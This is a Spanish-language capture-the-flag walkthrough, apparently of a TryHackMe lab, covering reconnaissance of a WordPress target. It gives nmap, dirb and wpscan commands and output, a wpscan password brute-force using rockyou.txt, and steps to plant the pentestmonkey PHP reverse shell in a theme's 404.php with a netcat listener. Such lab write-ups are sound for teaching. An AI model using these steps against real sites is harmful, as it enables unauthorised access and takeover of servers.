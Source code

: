 1. **Modificar el archivo /etc/hosts**

        - IP internal.thm

2. **Nmap** 

        - sudo nmap -sV -sC -Pn -v 10.10.17.84 -o port_scan

3. **Uso de dirb**
 ````
---- Scanning URL: http://10.10.17.84/ ----
==> DIRECTORY: http://10.10.17.84/blog/
+ http://10.10.17.84/index.html (CODE:200|SIZE:10918)
==> DIRECTORY: http://10.10.17.84/javascript/
==> DIRECTORY: http://10.10.17.84/phpmyadmin/
+ http://10.10.17.84/server-status (CODE:403|SIZE:276)
==> DIRECTORY: http://10.10.17.84/wordpress/
 ````

4. **Escaneo en Wordpress**
 ````
[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://internal.thm/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 
[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.6
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a f>
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'
  ````
5. **Fuerza bruta en Wordpress**

        - wpscan --url http://internal.thm/blog/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames admin --max-threads 50
 ````
 [!] Valid Combinations Found:
 | Username: admin, Password: *******
Correo: admin@internal.thm
 ````
6. **Creamos una reverse shell en Wordpress**
        -  Vamos a los temas
        - Customize
        - Inyectamos en 404.php la reverse shell --> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
        - Nos conectamos: http://10.10.17.84/wordpress/wp-content/themes/twentyseventeen/404.php
        - Estamos a la escucha: nc -lvp 4444


